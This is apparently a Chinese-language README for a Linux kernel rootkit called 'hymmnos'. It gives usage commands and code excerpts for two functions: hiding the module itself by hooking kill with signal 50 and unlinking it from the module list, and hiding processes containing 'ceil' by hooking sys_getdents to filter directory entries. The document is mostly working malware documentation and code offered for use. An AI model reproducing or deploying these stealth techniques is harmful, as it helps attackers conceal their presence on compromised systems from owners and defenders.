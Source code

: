 #

## 1.隐藏rootkit自身

### 使用

+ `insmod hymmnos` 加载内核模块

        ```
            $ cat /proc/modules | grep hymmnos
            hymmnos 24576 0 - Live 0x0000000000000000 (OE)
        ```
    可以查看到hymmnos模块已被加载
+ `kill -50 7` 隐藏`rootkit`自身

        ```
            $ kill -50 7
            $ cat /proc/modules | grep hymmnos
        ```
    可以看到`rootkit`已被隐藏
+ 再次使用`kill -50 7`恢复`hymmnos`模块

### 实现

自定义`#define SIGHIDEHYMMNOS 50`
当执行被`hook`之后的`kill`函数,并传递信号值为50时，`kill`函数会判断`hymmnos`模块是否已被隐藏，隐藏则重新显示。

    ```
    case SIGHIDEHYMMNOS:
        if (hidden)
            show();
        else
            hide();
        break;

    ```

`hiden()`函数实现：

+ 先对内核模块加锁，防止出现异常

+ 获取当前已加载模块列表，存储到`mod_list`中

+ 删除当前已加载模块列表

+ 回收模块段属性空间，并将模块段属性值置为`null`

+ 解除加锁，将模块状态标记为已隐藏

`show()`函数实现:

+ 判断模块是否已被隐藏

+ 对内核模块加锁，防止出现异常

+ 将存储在`mod_list`中的隐藏前的已加载模块列表重新添加到`THIS_MODULE->list`

+ 解除加锁，将模块状态标记为显示

## 2.隐藏包含命令行和执行文件名称中包含特定字符串的进程

### 使用

+ `sudo insmod hymmnos`加载内核模块

+ `ps -aux | grep ceil` 查看包含`ceil`字符串的进程
  发现这样的进程已经全部被隐藏

+ `sudo rmmod hymmnos`卸载内核模块

+ 再次执行`ps -aux | grep ceil`
  可以重新打印出被隐藏的进程

### 实现

自定义`#define COMMAND_CONTAINS "ceil"`
当执行被`hook`之后的`sys_getdents`函数时，会在该函数执行过程中判断该进程可执行文件是否包含预定义的`COMMAND_CONTAINS`、该进程是否包含包含预定义的`COMMAND_CONTAINS`在可执行文件名称或命令行中，包含则将相应内容删除。

    ```
    if (strstr(buf, COMMAND_CONTAINS))
    {
        if (DEBUG)
            printk(KERN_INFO "hiding %s\n", buf);
        res = 1;
    }
    ```

    ```
    while (off < ret)
    {
        dir = (void *)kdir + off;
        if (should_be_hidden((char *)dir->d_name))
        {
            //printk(KERN_INFO "hiden %s\n", dir->d_name);
            if (dir == kdir)
            {
                ret -= dir->d_reclen;
                memmove(dir, (void *)dir + dir->d_reclen, ret); //remove
                continue;
            }
            prev->d_reclen += dir->d_reclen;
        }
        else
        {
            prev = dir;
        }
        off += dir->d_reclen;
    }
    ```

